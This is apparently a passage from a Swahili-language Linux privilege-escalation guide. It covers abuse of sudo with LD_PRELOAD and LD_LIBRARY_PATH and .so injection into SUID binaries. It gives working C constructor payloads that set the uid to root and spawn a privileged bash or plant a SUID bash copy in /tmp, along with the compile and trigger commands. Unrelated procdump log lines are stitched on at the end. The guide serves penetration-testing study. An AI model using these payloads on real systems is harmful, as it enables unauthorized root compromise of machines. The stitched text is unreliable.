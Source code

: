 ```bash
sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```
> [!CAUTION]
> Privesc inayofanana inaweza kutumiwa vibaya ikiwa mshambuliaji anadhibiti **LD_LIBRARY_PATH** env variable kwa sababu anadhibiti njia ambapo libraries zitatafutwa.
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```
### SUID Binary – .so injection

Unapokutana na binary yenye ruhusa za **SUID** ambazo zinaonekana zisizo za kawaida, ni desturi nzuri kuthibitisha kama inapakia faili za **.so** vizuri. Hii inaweza kuchunguzwa kwa kuendesha amri ifuatayo:
```bash
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```
Kwa mfano, kukutana na hitilafu kama _"open(“/path/to/.config/libcalc.so”, O_RDONLY) = -1 ENOENT (No such file or directory)"_ inaonyesha uwezekano wa exploitation.

Ili exploit hili, ungeendelea kwa kuunda faili la C, kwa mfano _"/path/to/.config/libcalc.c"_, lenye msimbo ufuatao:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
Msimbo huu, mara umekusanywa na kutekelezwa, unalenga kuinua vibali kwa kubadilisha ruhusa za faili na kuendesha shell yenye vibali vilivyoinuliwa.

Kusanya faili ya C iliyotajwa hapo juu kuwa shared object (.so) kwa kutumia:
```bash
gcc -shared -o /path/to/.config/libcalc.so -fPIC /path/to/.config/libcalc.c
```
Mwishowe, kuendesha SUID binary iliyoathiriwa kunapaswa kuchochea exploit, na kuruhusu uwezekano wa kuvunjika kwa mfumo.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714